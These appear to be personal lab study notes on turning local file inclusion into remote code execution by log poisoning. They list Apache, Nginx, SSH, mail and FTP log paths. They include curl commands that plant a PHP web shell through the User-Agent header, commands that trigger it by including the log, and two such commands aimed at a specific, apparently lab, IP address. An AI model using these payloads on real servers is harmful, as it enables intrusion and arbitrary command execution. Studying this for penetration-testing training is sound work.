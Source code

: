 
Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above.

The path taken in this not can also be applied to ssh,ftp,mail
	E.g
		Send malicious mail document with php and use LFI to execute on the saved mail file

Log File List
	/var/log/apache2/error.log
	/var/log/apache2/access.log
	/var/log/sshd.log
	/var/log/mail
	/var/log/vsftpd.log

Log File Paths(Might have different paths use this [LFI FUZZ](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI))
	Default
		Apache
			 `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows
		Nginx
			`/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows

Testing for log file include(Look for parameters we control)
```http
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

(Control the User-Agent with burp suite or curl)
```shell
curl -s --user-agent '<?php system($_GET["cmd"]); ?>' 'http://<SERVER_IP>:<PORT>/index.php'
```

Execute on user-agent web shell
```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id"
```
**Tip:** The `User-Agent` header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.




curl -s "http://94.237.54.116:36544/index.php?language=/var/log/apache2/access.log&cmd=pwd"

curl -s 'http://94.237.54.116:58945/index.php' -A '<?php system($_GET["cmd"]); ?>'
